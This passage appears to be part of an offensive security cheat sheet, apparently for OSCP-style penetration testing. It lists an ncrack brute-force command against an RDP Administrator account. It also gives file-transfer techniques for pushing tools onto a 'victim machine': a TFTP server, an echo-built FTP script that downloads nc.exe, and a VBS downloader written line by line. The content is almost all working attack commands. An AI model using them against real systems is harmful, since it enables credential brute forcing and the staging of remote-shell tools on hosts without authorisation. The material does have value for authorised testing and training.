 ```powershell
rdesktop -u guest -p guest INSERTIPADDRESS -g 94%

# Brute force
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://INSERTIPADDRESS
```



## [](#header-2)File Transfer



#### [](#header-4) TFTP

```powershell
m0chan Machine
mkdir tftp
atftpd --deamon --port 69 tftp
cp -file- tftp
On victim machine:
tftp -i <[IP]> GET <[FILE]>
```



#### [](#header-4) FTP

```powershell
echo open <[IP]> 21 > ftp.txt
echo USER demo >> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```



#### [](#header-4) VBS Script

```powershell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

```